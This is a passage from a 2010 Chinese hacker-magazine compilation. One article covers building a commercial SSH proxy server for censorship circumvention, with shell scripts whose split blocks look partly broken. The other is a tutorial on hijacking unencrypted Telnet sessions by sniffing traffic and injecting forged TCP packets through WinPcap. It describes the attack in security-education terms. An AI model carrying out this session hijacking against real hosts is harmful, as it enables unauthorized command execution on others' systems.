# 黑客防线2010合订本（下）第二部分

---

前置知识：无

关键词：SSH、代理服务器、手册

## 商业 SSH 代理服务器搭建之完全手册

文/图 Complexs

写在前面的话：

无论你是否相信，当你在浏览器中输入：http://www.google.com，在搜索框中输入敏感的政治、色情关键词时，你会发现 Google 莫名其妙地“挂”掉了（图1）。并且，无论你怎么刷新页面，短时间内 Google 也还是无法访问。这是为什么呢？原因很简单：你被“河蟹”了。

不废话了，开始正文：伟大的中国人民，是不会被困难所击败的！很多朋友也许都已经知道了，可以通过代理服务器上网。这样不仅保护了个人隐私，同时提高了网络安全性。但是，经常会出现这样一个问题：昨天还正常使用的上网代理，今天突然间不能连接了，或者变得很“龟速”。因此，我相信大部分朋友都在苦恼于如何寻找高速及稳定的代理服务器。引用毛主席老人家的一句话：“自己动手，丰衣足食”。



图1

## 必要的准备

下面，我就和大家一起架设一个属于我们自己的“代理服务器”。请大家注意：本文的方法，是目前商用 SSH 代理服务器所采用的普遍方法。所以，如果你想用本文提供的方法进行 SSH 服务销售，是没有任何问题的，甚至我们会做得更好。

正式开始前，我们需要做些准备工作。

- 1. 一个收费的 VPS 服务器：请注意，只有收费的服务，才可以保证服务的速度及稳定性。笔者在这里推荐一个：http://www.rapidex.net，使用优惠码后，每月仅折合 30 多元人民币。（选择 VPS 的原因在于其可定制性强，功能强大。）
- 2. Putty.exe：推荐的 SSH 连接软件，官方下载地址：http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe。
- 3. 英文翻译软件：如果你英文不太好的话。大家也许会问，SSH 连接软件有很多，为什么推荐使用 Putty 呢？理由是：Putty 小巧绿色，支持命令行参数，支持 SSH 管道代理。

## 使用 Putty 连接 SSH 服务器，开通 SSH 代理访问网络

- 1. 将 Putty.exe 复制到 `C:\Putty.exe`。
- 2. “开始”→“运行”，输入：`cmd`。
- 3. 在弹出的黑色窗口中输入，打开远程连接的同时，在本地开启 Socks5 代理端口：`C:\Putty.exe root@222.222.222.222 -pw 000000 -D 7070`（将 IP 与密码替换为实际值，`-D 7070` 指定本地代理端口）。
- 4. 打开 IE 浏览器：选择“工具”→“Internet 选项”→“连接”→“局域网设置”，勾选“为 LAN 使用代理服务器”，单击旁边的“高级”按钮，按图2设置。
- 5. 单击“确定”按钮保存后，就可以通过 SSH 代理上网了。



图2

## 搭建自己的 SSH 服务器

至此，第一步过程已经完成了：我们可以通过 SSH 代理服务器访问网络了。接下来，要进入核心环节了。事实上，我们总在“提出问题”“分析问题”“解决问题”。下面问题来了：用户使用 Putty，通过 SSH 协议登录服务器时，可以查看、修改、删除服务器文件内容，但是，我不想让用户查看及操作文件。

解决方法：设置一个 `ssh` 专用登录账户，同时指定用户登录主目录：`useradd ssh_test_account -m -d /home/ssh`。修改 `/home/ssh/.profile` 文件（该文件用于用户登录时执行初始化操作），下边是原文件内容，粗体部分为新增代码。

```bash
# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022
exec ./LoginScript.sh

# if running bash
if [ -n "$BASH_VERSION" ]; then
  if [ -f "$HOME/.bashrc" ]; then
    . "$HOME/.bashrc"
  fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
  PATH="$HOME/bin:$PATH"
fi
```

这样，就可以在用户登录时先执行我们的脚本，然后再执行系统默认部分。在我们自定义的脚本部分，可以写一个死循环来保持用户连接，同时阻止用户查看系统文件。接着，我们需要新建 `/home/ssh/LoginScript.sh` 文件，实现自定义脚本功能，文件内容如下：

```bash
#!/bin/sh
# 使用 trap 命令，屏蔽 INT 和 TERM（及 CTRL+C）防止用户强制中断
trap 'echo "[Secure Protection System] Please do close the window to end current session!"' INT TERM

# 获取用户 IP 地址
loginUserIp=$(echo $SSH_CLIENT | awk '{print $1}')

# （后续：IP 查询、短信告警、日志记录等）
# echo -e "\033[41;36mSystem initializing with IP"$loginUserIp
# Send sms alarm to moran && record to the log.
```

```bash
#LD_LIBRARY_PATH=/home/Autowork/sms_fction/ ...
while [ 1 ]; do
  clear
  echo "Welcome to SSH Tunnel Proxy Service."

  legalCount=$(who | wc -l)
  illegalCount=$(netstat -nat | grep ':22' | grep ESTABLISHED | wc -l)
  illegalCount=$illegalCount-$legalCount
  totalOnline=$(cat UserLogin.log | wc -l)
  echo "[S.P.S] Current Online: $legalCount(+$illegalCount) | History Online: $totalOnline"

  time=`date +%m:%d:%H:%M`
  day=`date +%m:%d`

  rx_before=`/sbin/ifconfig $NIC | sed -n '8'p | awk '{print $2}' | cut -c7-`
  tx_before=`/sbin/ifconfig $NIC | sed -n '8'p | awk '{print $6}' | cut -c7-`
  sleep 2
  rx_after=`/sbin/ifconfig $NIC | sed -n '8'p | awk '{print $2}' | cut -c7-`
  tx_after=`/sbin/ifconfig $NIC | sed -n '8'p | awk '{print $6}' | cut -c7-`

  rx_result=$[(rx_after-rx_before)/256]
  tx_result=$[(tx_after-tx_before)/256]
  upSpeed=$rx_result
  downSpeed=$tx_result
  echo "[S.P.S] Server Network Traffic(Avg 2s, kbs): UpSpeed:$upSpeed | DownSpeed:$downSpeed"

  userMsg=$(cat UserMessage)
  if [ -z "$userMsg" ]; then
    echo "[Moral] Now you can simply type the words to chat with the others"
  else
    echo -e "\033[0;36m$userMsg\033[0m"
  fi

  read userMsg
  if [ -z "$userMsg" ]; then
    continue
  fi
  echo "$userMsg" > UserMessage
  echo "$userMsg @ $(date)" >> UserMessageHistory
done
```

至此 SSH 网络代理服务器就已经搭建完毕。以上代码在 Debian 64bit OS 上运行状态良好。现在，你可以使用“第二部分”的方法连接自己的代理服务器。连接后，Putty 给出了服务器返回的提示信息，如图3所示。



图3

## 关闭僵尸连接

不知道大家是否注意到了：“获取合法登录用户（此处限制用户必须使用 bash 交互登录方式）”这句，我来详细阐述一下原因：因为这是一个商业的代理服务器，考虑到安全及稳定性，是不允许用户长时间进行如下下载之类的活动。很多浏览器打开新网页或者进行下载时，会打开很多匿名连接（非 bash 交互方式的连接）。作为代理服务器，应当定时关闭非 bash 交互登录的连接，以释放服务器带宽资源。

关闭匿名连接的方法：

```bash
#!/bin/sh
iptables -L
who | awk '{print $5}' | awk -F"(" '{print $2}' | awk -F")" '{print $1}' > legalLoginUserIpAddr
netstat -nat | grep "222.222.222.222:22" | grep ESTABLISHED | awk '{print $5}' | awk -F":" '{print $1}' > allLoginUserIpAddr
cat allLoginUserIpAddr | while read allIpAddr; do
  illegalIpAddr=$(cat legalLoginUserIpAddr | grep $allIpAddr)
  if [ -z "$illegalIpAddr" ]; then
    illegalIpAddr=$allIpAddr
    # 如果是长时间占用，可以考虑将其加入 iptables 一段时间
  fi
done
```

```bash
iptables -A INPUT -s $illegalIpAddr -j DROP
echo -n "Disable illegal user login with IP Address: $illegalIpAddr"

ps aux | grep sshd | grep -v priv | grep -v @pts | grep ^test_ssh | awk '{print $2}' > illegalLoginUserPID
cat illegalLoginUserPID | while read illegalPID; do
  # 杀掉匿名连接的进程
  kill $illegalPID
  echo ": killed PID:$illegalPID"
done

rm legalLoginUserIpAddr && rm allLoginUserIpAddr && rm illegalLoginUserPID
```

## 讨论及更多

至此，已经将商业 SSH 代理服务器的主要技术框架进行了详细的阐述。其他（如短信发送、IP 地址查询等）功能限于篇幅的原因，笔者在此并没有进行过多阐述。大家可以利用这个整体框架，自己动手添加更多功能，如：登录用户统计、服务器健康状态监控等。监控结果可以使用短信或者邮件的方式发送给服务器管理员。

前置知识：无

关键词：网络监听、Telnet、会话

# 通过被动网络监听实现 Telnet 会话窃取



文/图 文刀

网络流量监听是网络管理和网络安全中的一项重要技术，一方面其对于诊断网络性能和故障有着十分重要的意义和作用，然而如果攻击者能够监听到某个网络内的流量，则会产生诸多安全和隐私泄漏隐患，如敏感信息窃取以及发现网络中主机的漏洞。本文将以 Telnet 为例介绍如何通过网络监听实现会话（Session）窃听和窃取。

混杂模式（Promiscuous）下，网卡能够接收监听到达该网卡的数据包。为了使数据包能够到达监听主机的网卡，通常有如下三种方式。

## 网络监听原理

根据监听者是否发送数据包进行身份伪装，网络监听可以分为主动监听和被动监听两种。在主动监听中，监听者伪装成被监听会话（Session）的一方或双方，从而截获通信内容。其基本原理和实现相对复杂，作者将另作一文详细介绍其原理和具体实现。本文将主要关注实现和使用相对简单的被动监听技术。本文接下来的内容中，如果没有特别说明，网络监听都特指被动监听。

通常，主机仅接收并处理发送给该主机的数据包并丢弃其他数据包。该数据包通过 MAC 地址和 IP 地址标识。

## HUB

早期，一个 LAN 中的主机大多数通过集线器 HUB 实现互联。这种互联方式有个特点，即通过 HUB 转发的数据包将被发送到该 HUB 的所有端口，而不仅是发送到唯一的目的端口。因此，只要监听者的主机连在某个 HUB 上，那么监听者可以监听到连在该 HUB 上的所有主机的通信。

但是随着网络互联技术的发展，HUB 逐渐被更高性能的交换机和路由器取代。而在交换机和路由器中，数据包将被正确地转发到应该发送到的目的端口，而非所有端口。为了在这种环境下实现网络监听，需要使用网关（串联）和旁路的方式。

## 网关方式（串联）

因此可以将监听器串联接入网络设备和 Internet 之间的线路，其结构如图1所示。



监听主机配置有两块网卡，其中一块与路由设备的 WAN 口相连，并且同一网段，另一块网卡与 Internet 相连。这样 LAN 中所有通过该路由设备的流量都会经过监听主机。

## 旁路方式

由于监听主机串联到网络结构中，因此对网络拓扑结构改动较大，而且监听主机可能成为影响网络性能的瓶颈。因此，目前更流行的监听方式为旁路方式。

在该方式中，监听者与其他主机一样连接到路由器或交换机的某个端口。通过使用路由器上的端口镜像功能，将所有其他端口的流量镜像到监听主机所在的端口，这样监听主机就可以捕获所有连接到该网络设备上的主机的通信流量。基本原理如图2所示。



网关（串联）和旁路监听方式多用于网络管理中，因为要实现这两种结构需要有一定的网络管理特权。网络管理者也可以利用其具有的特权来监听并窃取被管网络中其他主机的通信会话。对于无相关特权的攻击者，只能使用主动监听的方式实现监听。另外，一般攻击者可以在 HUB 网络结构中实施监听攻击。下面以 Telnet 为例，介绍网络监听攻击的实现。

## 窃取 Telnet 会话

**场景描述：** 某正常用户 U 将使用 Telnet 连接某服务器 S。在 Telnet 会话建立后，用户 U 会偶尔地向服务器发送命令。攻击者 A 处于同一个以太网段内并能够被动地监听到 U 与 FTP 服务器的通信会话。假设通信会话没有加密（正如一般情况下的 Telnet 通信）。

攻击目标：向 Telnet 会话中插入一个命令，发送给服务器并窃取命令执行结果。

**使用工具：** MFC、Windows XP Telnet、WinPcap（www.winpcap.org）。

**系统平台：** Telnet 服务器和攻击者均为 Windows XP。

**攻击过程：** Telnet 会话窃取的目标是攻击者能够向会话中插入自己的命令，使 Telnet 服务器能够正确执行并返回结果。为成功实现攻击，攻击者必须得到会话中正确的 ACK 和 SEQ 以及通信双方的端口。在同一网段内，要得到这些信息是比较容易的。至于 TCP 和 Telnet 通信的详细原理，读者可以参考《TCP/IP 协议详解 卷1》。利用 Pcap 开发库，并将网卡设为混杂模式，可以很容易地捕获网内的数据包。通过对这些数据包的分析，我们就可以伪装成客户端，构造出包含我们要发送的命令，从而实现对一个会话的攻击。原理如图3所示。



具体攻击实现如下。

### Step 1：攻击对象指定

攻击者首先输入正常用户和 Telnet 服务器 IP，以及通信端口（Telnet 默认为 23），如图4所示。

| 字段 | 值 |
|---|---|
| Src IP（客户端） | 192.168.1.155 |
| Dest IP（服务器） | 192.168.1.2 |
| TCP Port | 23 |

图4 指定攻击对象

代码中使用 `clientip`、`serverip` 和 `dport` 三个变量记录该信息，该信息主要用于设置 WinPcap 的 BPF 过滤器，使得程序仅捕获被攻击 Telnet 会话的数据包。也可以不在此处指定，而是通过在程序中给 `packet_filter` 变量赋初始化值来设置 BPF 过滤器。如果 `clientip`、`serverip` 和 `dport` 为空，则程序使用预编译的包过滤规则，否则根据用户的指定设置过滤规则。

### Step 2：使用 WinPcap 源码包，截获 U/S 间通信内容

使用 WinPcap 进行数据包捕获的代码网上可以找到很多，此处不再列出具体代码。本文中，通过创建一个新的线程进行抓包。这是因为，在抓包的时候我们还要发送攻击数据包。抓包主要通过函数 `pcap_dispatch()` 进行。在该函数中要传入一个回调函数 `packet_handler()` 对捕获的数据包进行处理。

```c
WINAPI ThreadFunc(/*LPVOID lpParam*/ CAttackDlg* ptr);
```

### Step 3：分析数据包

分析数据包的函数为 `void packet_handler(u_char *param, const struct pcap_pkthdr *header, const u_char *pkt_data)`。该函数的主要目的是记录被攻击 Telnet 会话中最新的通信信息，尤其是最近一个数据包的 ACK 和 SEQ、双方通信端口、IP 头中的标识符，以及客户端发给服务器的最近一个包的时间戳。代码中使用 `LastAck`、`LastSeq`、`LastSport`、`Lastidentification` 以及 `TimeStamp` 记录上述信息。

同时，该函数还要计算下一个数据包的 SEQ 和 ACK，以便构造攻击包时使用。通常 Telnet 的每次交互中，最后一个包由服务器发给客户端，因此 SEQ 和 ACK 的计算方法为：

```c
SentSeq = LastAck;    SentAck = LastSeq + tcpdatalen;
```

### Step 4：发送攻击包

使用另一个线程发送攻击包。攻击包需要伪装成客户端发送的正常命令，因此需要对数据包包头进行修改。由于 pcap 库对发送支持有限，通常通过 `pcap_sendpacket()` 发送原始数据包，这意味着需要自行计算 IP 和 TCP 头部的 checksum，并逐字节修改关键字段。

- 将要发送的内容加入数据包的数据部分。
- IP 首部：数据报总长度字段、IP 首部检验和。
- TCP 首部：SEQ、ACK、TCP 校验和、选项中的时间戳。
- 时间戳必须晚于客户端最后发给服务器包中的时间戳，否则服务器可能丢弃该包。

使用变量 `cmd` 记录待发送的攻击命令。Telnet 命令按字节交互，因此攻击过程必须与服务器交互。包发送由 `pcap_sendpacket()` 完成，其中 `unlock` 用于保证命令中的下一个字符发送前，已经收到服务器对上一个字符响应的 ACK，从而防止服务器重传导致顺序错乱。通常插入命令的时机是客户端和服务器暂时无通信时。



图 5  Telnet 中 dir 命令的交互过程

以 `dir`、`help` 和 `exit` 三个命令为例，作者使用 Wireshark 捕获了攻击过程中的数据交互。可以看到，无论发送什么命令，在服务器执行完命令后，Telnet 会话都会结束。读者可进一步研究会话终止原因并完善攻击代码。

> （编程提醒，本文涉及的代码可到黑防官方网站下载。）

前置知识：无

关键词：笔记本、ubuntu、驱动安装

